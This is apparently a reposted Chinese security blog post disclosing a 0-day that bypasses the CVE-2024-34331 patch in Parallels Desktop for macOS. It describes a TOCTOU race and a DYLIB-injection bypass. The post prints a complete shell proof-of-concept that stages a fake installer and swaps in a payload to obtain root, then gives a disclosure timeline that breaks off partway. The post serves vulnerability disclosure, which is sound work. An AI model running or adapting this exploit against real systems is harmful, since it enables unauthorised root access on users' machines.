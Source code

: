 #  0day漏洞：Parallels Desktop Repack Root权限提升   
 Ots安全   2025-02-26 11:30  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
今天，我披露了一个可以绕过CVE-2024-34331补丁的0-day 漏洞。我已经确定了两种不同的方法来绕过该修复程序。这两种绕过方法都分别报告给了Zero Day Initiative (ZDI)和受影响的供应商Parallels。不幸的是，他们的回应非常不令人满意。  
  
鉴于供应商已将此漏洞搁置了七个多月（尽管之前已披露），我选择公开披露此零日漏洞。我的目标是提高认识并敦促用户主动降低风险，因为攻击者可能会在野外利用此漏洞。  
  
背景  
  
在阅读了 Mykola 关于旧CVE-2024-34331的博客后，我意识到 Parallels 的补丁确实很容易绕过：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taekMCD6gQsNjjLD6gq1fafzTqCAl8vKtYUROuBicYRyuiaKV0pQQlhOibE1u0gYqgnGlQ4VOdAAH6XyA/640?wx_fmt=png&from=appmsg "")  
  
建议先阅读他的原始博客。  
  
绕过  
  
修补代码用于验证该工具是否createinstallmedia经过 Apple 签名。如果是，则将createinstallmedia以root 权限启动该工具。否则，它将以错误退出。  
  
至少有两种不同的方法可以绕过这里验证：  
1. 通过TOCTOU攻击绕过：通过签名验证之后，在生成工具之前，攻击者有足够的时间createinstallmedia用恶意工具替换该工具！  
  
1. 签名验证所需的字符串“anchor apple”太弱了！攻击者可以找到Apple 签名的可执行二进制文件（例如系统命令ls），然后将恶意 DYLIB 注入Apple 的二进制文件以直接绕过签名验证！我在之前的博客中讨论过这个技巧。  
  
漏洞 1  
  
该函数的漏洞利用脚本do_repack_createinstallmedia如下：  
  
```
#!/bin/sh# Bypass the patch of CVE-2024-34331 via TOCTOUecho"[?] whoami; id"whoamiidecho"[*] Dropping a payload..."cat << EOF > /tmp/payload#!/bin/shtouch /Library/lpe/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal &EOFchmod +x /tmp/payloadecho"[*] Dropping a fake macOS installer..."mkdir -p /tmp/poc.app/Contents/Resourcescp /bin/ls /tmp/poc.app/Contents/Resources/createinstallmediadefaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName createinstallmediaecho"[*] Trigger the repack..."open /tmp/poc.app -a /Applications/Parallels\ Desktop.appecho"[*] Waitting for the verification..."dir_pattern="/Users/$USER/Parallels/*iso.tmp.*"# Check if the random directory existswhile [ -z "$(ls -d $dir_pattern 2>/dev/null)" ]; do    :donemv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmediaecho"[*] All done. Enjoy the root shell :P"
```  
  
  
时间线  
  
Mykola 于 5 月 30 日发布了他的博客。  
  
我于 5 月 31 日立即向 ZDI 报告了此绕过行为。  
  
然而，ZDI 来不及处理这份报告，随后情况发生了变化：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taekMCD6gQsNjjLD6gq1fafzhNQK26ibOOM4ufpuv129LfKU7ibatoIuRpV1HXsrmRibWw1jYq04BoLkg/640?wx_fmt=png&from=appmsg "")  
  
ZDI 告诉我，他们无法在 版本上重现该漏洞19.4.1，但我提交此报告时是最新版本。他们在我报告六周后才19.4.0开始调查此案！  
  
自 19.4.1 版本以来发生了一些变化  
  